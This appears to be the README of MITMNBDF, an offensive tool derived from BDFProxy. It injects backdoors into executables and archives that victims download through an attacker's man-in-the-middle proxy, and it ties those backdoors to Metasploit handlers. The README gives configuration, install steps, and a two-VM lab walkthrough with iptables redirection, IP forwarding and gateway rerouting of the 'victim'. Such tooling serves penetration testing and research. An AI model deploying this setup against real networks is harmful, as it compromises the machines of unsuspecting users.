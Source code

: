 # MITMNBDF v1.0
MITMNBDF (_MITM 'n' BDF_) is a kind of `BDFProxy` (https://github.com/secretsquirrel/BDFProxy) rewrite, from which it takes great inspiration.

## What's new (v1.0)
- archive types are handled by the config file: you can add support for new archive types just by editing the config file (default is `mitmnbdf.cfg`) following the format outlined in the next paragraph. This means that you can add new file types support without stopping `mitmnbdf`, giving maximum flexibility.
- mostly of the static variables are now handled by the config file (default is `mitmnbdf.cfg`)
- the whole config file is parsed on every traffic request, that means: it can be edited anytime and the script will adapt in real-time. Most notably, now you can edit the `[targets]` section, so you can change IP addresses, ports, payloads and others without closing `mitmnbdf` 
- multiprocess supports thanks to python `multiprocessing` module. Every stream will run on a dedicate process
- adding support for domain name in log file and output, so you can specify domain names in the `[targets]`
- adding support for multiple metasploit resource files based on `[targets]`: each target now has its own resource file, to reflect the changes that can be made in real time to the config file (the resource file per target follows the format `example_domain_org_msf.rc`).
- log file is grep-friendly: the format helps tools to grep for information. The log format is `date|loglevel|message`, where _loglevel_ is always 4 chars (`ERRO`, `WARN`, `INFO`, `DEBG` and `CRIT` @ EnhancedOutput class)
- more robust error checking and error handling

### File type format
Just as example, the following lines define a new archive file type called 'antani' (a fantasy one) in the `mitmnbdf.cfg`:

```
# don't forget to add your archive type in 'supportedArchiveTypes
# archive type name must be upper letters
supportedArchiveTypes = ZIP, TAR, AR, DEB, LZMA, ANTANI

[...]

[ANTANI]
# patchCount is the max number of files to patch in a zip file
# After the max is reached it will bypass the rest of the files 
# and send on it's way

patchCount = 5

# In Bytes
maxSize = 40000000

blacklist = .dll,  # don't do dlls in the archive file

# here we have a list of all the mime types that belongs to the archive type.
# you can use the command 'file --mime-types archive_file.ext' to fill the variable
mimes = "application/x-antani-compressed", "application/antani"

	# then we specified for each mime types what kind of format and filter we need to
	# apply to create the archive. You can find it out by looking at the libarchive-c source code
	[["application/x-antani-compressed"]]
	format = antani
	filter = xz

	[["application/antani"]]
	format = antani
	filter = None
```

## Why forking
I felt the BDFProxy source code needed a proper redesign to be able to add more features and flexibility, giving the great job Josh did with Backdoor Factory and BDFProxy.
I tried to work with Josh to redesign the code, but he has his ideas and way to manage code that is incompatible with my coding style. Variety is the spice of life.

## How to install
You need to install the python packages listed in `requirements.txt` (hint: `sudo pip install -r requirements.txt`). Before doing that, you need to install `libarchive-dev` from your packet manager. (`sudo apt-get install libarchive-dev` on Debian/Ubuntu).

You need to initialise the `bdf` submodule, so:
```
~/mitmnbdf$ git submodule init
~/mitmnbdf$ git submodule update
```

## How to use
Simply type `sudo python mitmnbdf.py`. Be sure to edit the config file and add your IP addresses and ports in the `[targets]` section.

Of course, you have already mitm'd your victim(s) (use your favourite tool)
To run a quick test, you can setup two VMs as follow:

#### VM A (mitmnbdf)
```
~$ ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0c:29:32:0e:37  
          inet addr:192.168.8.129  Bcast:192.168.8.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fe32:e37/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:466 errors:0 dropped:0 overruns:0 frame:0
          TX packets:430 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:282593 (282.5 KB)  TX bytes:356018 (356.0 KB)
~$ route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         192.168.8.2     0.0.0.0         UG    0      0        0 eth0
192.168.8.0     0.0.0.0         255.255.255.0   U     0      0        0 eth0

~/mitmnbdf$ cat mitmnbdf.cfg | grep proxyPort
proxyPort = 8080
~/mitmnbdf$ cat mitmnbdf.cfg | grep proxyMode
proxyMode = transparent  # <-- this is important!!!

~$ sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
~$ sudo echo 1 > /proc/sys/net/ipv4/ip_forward

~/mitmnbdf$ sudo python mitmnbdf.py
```

#### VM B (victim)

```
~$ ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0c:29:e1:a1:ed  
          inet addr:192.168.8.135  Bcast:192.168.8.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fee1:a1ed/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:263 errors:0 dropped:0 overruns:0 frame:0
          TX packets:403 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:209801 (204.8 KiB)  TX bytes:31364 (30.6 KiB)

~$ sudo route add default gw 192.168.8.129
~$ sudo route del default gw 192.168.8.2
~$ curl -O http://example.com/mysw.exe
```

## mitmproxy script
If you want to use the `mitmproxy`'s scripting capability with mitmnbdf, now you can! 

I've release `mitmnbdf_inline.py` that it's basically a copy of the main `mitmnbdf.py` but adapted to be used as inline script.

To use it, you must first install the `bdf` library. If you didn't do that, you can use `bdf_install.sh`, that will install `bdf` directory into your python library path.

Then you may want to run the inline script as following:

```
~/mitmnbdf$ mitmproxy -T --host -s "mitmnbdf_inline.py mitmnbdf.cfg"
```

Some basic information are logged into `mitmproxy` and can be viewed by pressind the `e` key.

## WARNING
This project uses `python-libarchive-c` (https://github.com/Changaco/python-libarchive-c) that is a wrapper for `libarchive` (https://github.com/libarchive/libarchive) which suffers from various bugs that could lead to a remote exploit. Use with care.